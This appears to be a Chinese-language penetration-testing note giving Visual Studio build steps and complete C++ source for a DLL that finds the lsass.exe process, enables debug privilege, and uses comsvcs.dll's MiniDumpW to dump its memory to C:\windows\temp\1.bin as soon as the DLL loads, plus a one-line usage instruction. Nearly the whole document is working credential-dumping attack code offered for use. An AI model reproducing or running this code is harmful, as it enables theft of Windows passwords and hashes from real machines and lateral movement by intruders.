 	https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e
![image](/assets/Pentest_Note/master/img/315.png)

	将三个文件下载到本地，使用visual studio进行编译，需要修改了几个地方。
	（1）添加如下代码
	#pragma comment(lib, "Rpcrt4.lib") （引入Rpcrt4.lib库文件）
	（2）将.c文件后缀改成.cpp （使用了c++代码，需要更改后缀）
	（3) 编译时选择x64
	编译得到exe文件
	Visual studio创建c++空项目
	配置类型选dll
	字符集选Unicode，调试器选64位
	Dll保存在C:\\windows\\temp\\1.bin
```cpp
#include <cstdio>
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <string>  
#include <map>  
#include <TlHelp32.h> 

#pragma comment(lib,"Dbghelp.lib")
using namespace std;

int FindPID()
{
	PROCESSENTRY32 pe32;
	pe32.dwSize = sizeof(pe32);

	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hProcessSnap == INVALID_HANDLE_VALUE) {
		cout << "CreateToolhelp32Snapshot Error!" << endl;;
		return false;
	}

	BOOL bResult = Process32First(hProcessSnap, &pe32);

	while (bResult)
	{
		if (_wcsicmp(pe32.szExeFile, L"lsass.exe") == 0)
		{
			return pe32.th32ProcessID;
		}
		bResult = Process32Next(hProcessSnap, &pe32);
	}

	CloseHandle(hProcessSnap);

	return -1;
}

typedef HRESULT(WINAPI* _MiniDumpW)(
	DWORD arg1, DWORD arg2, PWCHAR cmdline);

typedef NTSTATUS(WINAPI* _RtlAdjustPrivilege)(
	ULONG Privilege, BOOL Enable,
	BOOL CurrentThread, PULONG Enabled);

int dump() {

	HRESULT             hr;
	_MiniDumpW          MiniDumpW;
	_RtlAdjustPrivilege RtlAdjustPrivilege;
	ULONG               t;

	MiniDumpW = (_MiniDumpW)GetProcAddress(
		LoadLibrary(L"comsvcs.dll"), "MiniDumpW");

	RtlAdjustPrivilege = (_RtlAdjustPrivilege)GetProcAddress(
		GetModuleHandle(L"ntdll"), "RtlAdjustPrivilege");

	if (MiniDumpW == NULL) {

		return 0;
	}
	// try enable debug privilege
	RtlAdjustPrivilege(20, TRUE, FALSE, &t);

	wchar_t  ws[100];
	swprintf(ws, 100, L"%hd%hs", FindPID(), " C:\\windows\\temp\\1.bin full");

	MiniDumpW(0, 0, ws);
	return 0;

}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
	switch (ul_reason_for_call) {
	case DLL_PROCESS_ATTACH:
		dump();
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

```
	>xxx.exe c:\xx\xx\xx.dll使用绝对路径